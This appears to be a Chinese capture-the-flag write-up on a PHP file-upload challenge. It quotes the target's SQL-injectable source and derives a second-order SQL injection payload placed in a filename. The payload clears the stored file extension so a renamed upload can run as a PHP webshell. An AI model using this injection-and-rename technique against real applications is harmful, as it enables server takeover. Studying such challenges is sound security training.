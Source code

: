 ```php

			$sql = "insert into `file` ( `filename`, `view`, `extension`) values( '{$path_parts['filename']}', 0, '{$path_parts['extension']}')";
			$re = $db->query($sql);
			if (!$re) {
				print_r($db->error);
				exit;
			}
			$url = "/" . UPLOAD_DIR . $name;
			echo "Your file is upload, url:
                <a href=\"{$url}\" target='_blank'>{$url}</a><br/>
                <a href=\"/\">go back</a>";
		} else {
			exit("upload error");
		}

	} else {
		print_r(error_get_last());
		exit;
	}
}
```

发现过滤了文件后缀名，自然没法直接传木马。目标应该是绕过后缀名，这点在上传时肯定无法实现，我们只能上传一些无聊的后缀，就算内容是木马也无法执行。不是有个重命名吗，看看能不能利用？

```php
$req['newname'] = basename($req['newname']);
$re = $db->query("update `file` set `filename`='{$req['newname']}', `oldname`='{$result['filename']}' where `fid`={$result['fid']}");
```

读取了oldname，oldname是之前被addslashes的初始文件名。绝对有二次注入，我们要把炸弹埋在oldname。继续往下看，想一下sql注入要干什么。

```php
$oldname = UPLOAD_DIR . $result["filename"] . $result["extension"];
$newname = UPLOAD_DIR . $req["newname"] . $result["extension"];
if (file_exists($oldname)) {
	rename($oldname, $newname);
}
```

重命名时是新名字拼接后缀名，\$result是查询结果，\$req是网页请求。猛地发现改名界面是没有过滤的啊，newname可以直接提交xxx.php，但是原来的后缀怎么办呢，xxx.php.jpg之类的显然不能执行。除非……后缀名是空？改名前正好有updata语句，正好又有二次注入，可不可以利用二次注入把后缀名改为空？

- ',extension='.txt

在改文件名时，单引号闭合oldname项，自己加个逗号更改extension（这就是给sql结构的原因了，我们知道里面的字段名）为空，最后的引号闭合后一个单引号，txt就是个掩耳盗铃后缀。把这个名字作为一个txt的文件名，上传后数据库中就有了恶意数据。现在我们改个名。

- old filename(exclude extension)：',extension='<br>new filename(exclude extension)： shell.txt

此时改名php脚本里的update语句是这样的。

```sql
update `file` set `filename`='shell.txt', `oldname`='',extension='' where `fid`={$result['fid']}
```

